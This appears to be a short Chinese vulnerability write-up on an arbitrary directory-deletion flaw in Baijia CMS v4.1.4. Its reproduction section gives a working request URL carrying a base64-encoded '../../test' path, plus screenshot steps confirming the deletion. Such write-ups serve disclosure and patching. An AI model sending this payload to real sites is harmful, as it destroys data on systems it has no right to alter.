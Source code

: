 ```yaml
---
title: "百家cms v4.1.4 任意路径删除漏洞"
id: zhfly3325
---
```


# 百家cms v4.1.4 任意路径删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
# 只能删除路径
http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1 
```

根目录下创建test文件夹，里面有内容为123的test.txt文件

![image](../img/b2791d549d6ee9d1cf5ba922ddeaebf6.png)

访问payload
将参数转为base64并方位payload

![image](../img/7936565bc7be4283bef41720a7b31b1d.png)

![image](../img/ea79c722753555ad851f82835b21a027.png)

查看文件夹，已被删除

![image](../img/5e1690aa0068433a7721f6e2be40877b.png)

## 参考链接

> https://xz.aliyun.com/t/7542